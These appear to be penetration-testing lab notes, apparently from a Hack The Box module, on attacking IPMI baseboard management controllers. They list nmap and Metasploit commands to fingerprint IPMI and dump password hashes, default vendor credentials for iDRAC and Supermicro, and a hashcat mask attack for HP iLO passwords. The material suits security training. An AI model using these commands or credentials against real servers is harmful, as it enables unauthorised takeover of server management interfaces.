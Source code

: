 **Version**
```
# Nmap
Orbixio@htb[/htb]$ sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local
# Metasploit
msf6> use auxiliary/scanner/ipmi/ipmi_version
```

**Dump Hashes**
```
msf6> use auxiliary/scanner/ipmi/ipmi_dumphashes 
```

**Default Passwords**

| Product         | Username      | Password                                                                  |
| --------------- | ------------- | ------------------------------------------------------------------------- |
| Dell iDRAC      | root          | calvin                                                                    |
| HP iLO          | Administrator | randomized 8-character string consisting of numbers and uppercase letters |
| Supermicro IPMI | ADMIN         | ADMIN                                                                     |

In the event of an HP iLO using a factory default password, we can use this Hashcat mask attack command `hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u` which tries all combinations of upper case letters and numbers for an eight-character password.